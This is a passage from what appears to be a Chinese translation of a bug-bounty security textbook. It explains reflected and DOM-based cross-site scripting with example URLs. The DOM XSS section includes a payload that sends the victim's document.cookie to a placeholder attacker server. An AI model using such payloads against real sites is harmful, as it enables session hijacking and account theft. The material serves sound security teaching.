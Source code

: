 我展示的第一个例子，涉及了一个反射型 XSS 攻击。这些问题通常发生在服务器依赖用户输入构建显示搜索结果或错误信息的页面时。例如，假设一个网站有一个搜索功能。用户可以通过 URL 参数输入搜索词，页面会在结果页顶部显示包含该词的消息。如果用户搜索 *abc*，与该消息相关的源代码可能是这样的：

```
<h2>You searched for abc; here are the results!</h2>
```

如果搜索功能在结果页面显示任何用户提交的搜索字符串，像以下的搜索词会导致一个脚本被嵌入到结果页面，并被浏览器执行：

```
https://example.com/search?q=**<script>alert('XSS by Vickie');</script>**
```

如果攻击者能诱使受害者访问这个 URL，负载将嵌入到他们页面的版本中，导致受害者的浏览器运行攻击者希望执行的任何代码。与存储型 XSS 不同，存储型 XSS 允许攻击者在任何访问其存储资源的人上执行代码，而反射型 XSS 使得攻击者能够在点击恶意链接的受害者的浏览器上执行代码。

### 基于 DOM 的 XSS

*基于 DOM 的 XSS* 类似于反射型 XSS，只是基于 DOM 的 XSS 中，用户输入从不离开用户的浏览器。在基于 DOM 的 XSS 中，应用程序接收用户输入，在受害者的浏览器上处理，然后再返回给用户。

*文档对象模型（DOM）* 是浏览器用来渲染网页的模型。DOM 表示网页的结构；它定义了每个 HTML 元素的基本属性和行为，并帮助脚本访问和修改页面内容。基于 DOM 的 XSS 直接攻击网页的 DOM：它攻击的是客户端的本地网页副本，而不是通过服务器。攻击者能够在页面接收用户提供的数据并根据这些输入动态更改 DOM 时攻击 DOM。像 jQuery 这样的 JavaScript 库容易遭受基于 DOM 的 XSS，因为它们动态地更改 DOM 元素。

如同反射型 XSS，攻击者通过受害者的用户输入提交基于 DOM 的 XSS 负载。与反射型 XSS 不同，基于 DOM 的 XSS 脚本不需要服务器的参与，因为它在用户输入直接修改浏览器中页面源代码时执行。XSS 脚本从未发送到服务器，因此服务器的 HTTP 响应不会发生变化。

这一切可能听起来有些抽象，我们来考虑一个例子。假设一个网站允许用户通过 URL 参数提交更改他们的语言环境：

```
https://example.com?locale=north+america
```

网页的客户端代码将使用此语言环境来构建欢迎信息，其 HTML 代码如下所示：

```
<h2>Welcome, user from north america!</h2>
```

URL 参数不会提交到服务器，而是由用户的浏览器在本地使用客户端脚本构建网页。但如果网站未对用户提交的语言环境参数进行验证，攻击者可以诱使用户访问像这样的 URL：

```
https://example.com?locale=
<script>location='http://attacker_server_ip/?c='+document.cookie;</script>
```

该网站将在用户的网页中嵌入有效载荷，受害者的浏览器将执行恶意脚本。

DOM XSS 起初可能听起来很像反射型 XSS。不同之处在于，反射型 XSS 有效载荷会被发送到服务器并通过 HTTP 响应返回到用户的浏览器。另一方面，DOM XSS 有效载荷是由于客户端代码不安全地渲染用户输入而注入到页面中的。虽然这两种攻击的结果类似，但它们的测试和防护过程不同。

可能导致反射型和基于 DOM 的 XSS 的用户输入字段并不总是 URL 参数。有时它们出现在 URL 片段或路径中。*URL 片段* 是位于 URL 末尾的字符串，以 `#` 字符开头。它们通常用于自动将用户引导到网页中的某个部分或传递附加信息。例如，这是一个带有片段的 URL，将用户引导到该网站主页的 `#about_us` 部分：

```
https://example.com#about_us
```

我们将在第七章中详细讨论 URL 的组成部分。关于 DOM XSS 和一些示例有效载荷的信息，请参阅 PortSwigger 文章“DOM-Based XSS”：[`portswigger.net/web-security/cross-site-scripting/dom-based/`](https://portswigger.net/web-security/cross-site-scripting/dom-based/)。

